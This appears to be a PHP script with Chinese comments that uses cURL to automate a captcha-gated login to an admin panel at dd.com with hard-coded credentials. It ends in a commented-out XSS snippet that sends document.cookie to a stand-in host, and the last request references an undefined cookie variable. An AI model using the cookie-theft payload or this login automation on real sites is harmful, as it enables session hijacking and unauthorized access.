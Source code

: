<pre class="prettyprint lang-php linenums">&lt;?php

header("Content-type: text/html; charset=utf-8");

// flush();
// ob_flush();
/**
 &nbsp;* 模拟登录
 &nbsp;*/
//初始化变量
 $cookie_file = dirname(__FILE__)."tmp.cookie";
 
$login_url = "http://dd.com/user.php?s=/Public_login.html";
$verify_code_url = "http://dd.com/user.php?s=/Public_verify.html";

echo "正在获取COOKIE...\n&lt;br/&gt;";
$curl = curl_init();
$timeout = 5;
curl_setopt($curl, CURLOPT_URL, $login_url);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($curl, CURLOPT_CONNECTTIMEOUT, $timeout);
curl_setopt($curl,CURLOPT_COOKIEJAR,$cookie_file); //获取COOKIE并存储
$contents = curl_exec($curl);
curl_close($curl);
 echo "COOKIE获取完成，正在取验证码...\n&lt;br/&gt;";
//取出验证码
$curl = curl_init();
curl_setopt($curl, CURLOPT_URL, $verify_code_url);
curl_setopt($curl, CURLOPT_COOKIEFILE, $cookie_file);
curl_setopt($curl, CURLOPT_HEADER, 0);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
$img = curl_exec($curl);
curl_close($curl);

 $fp = fopen("verifyCode.jpg","w");
fwrite($fp,$img);
fclose($fp);
echo "验证码取出完成，正在休眠，20秒内请把验证码填入code.txt并保存\n";
//停止运行20秒
sleep(20);
 echo "休眠完成，开始取验证码...\n&lt;br/&gt;";
 
 
$code = file_get_contents("code.txt");
echo "验证码成功取出：$code\n &lt;br/&gt;";
echo "正在准备模拟登录...\n &lt;br/&gt;";

//$post = "username=admin999&amp;password=admin888&amp;verifyCode=$code";

$post=array();
$post['username']='admin999';
$post['password']='admin888';
$post['verifyCode']=$code;

$uuuuurl='http://dd.com/user.php?s=/Public_doLogin.html';
$curl = curl_init();
curl_setopt($curl, CURLOPT_URL, $uuuuurl);
curl_setopt($curl, CURLOPT_HEADER, false);
curl_setopt($curl, CURLOPT_RETURNTRANSFER,1);
curl_setopt($curl, CURLOPT_POSTFIELDS, $post);
curl_setopt($curl, CURLOPT_COOKIEFILE, $cookie_file);
$result=curl_exec($curl);
echo $result;
curl_close($curl);


//这一块根据自己抓包获取到的网站上的数据来做判断
if(substr_count($result,"登录成功")){
    echo "登录成功\n";
    
    
    
}else{
    echo"登录失败\n";
}
    
echo "===============================================================";

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, 'http://dd.com/admin.php');
curl_setopt($ch, CURLOPT_COOKIEFILE, $cookie_jar);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$ret = curl_exec($ch);
echo $ret;
curl_close($ch);

/*
&lt;script&gt;
window.location.href="http://localhost/1.php?a="+document.cookie;
&lt;/script&gt;
*/</pre>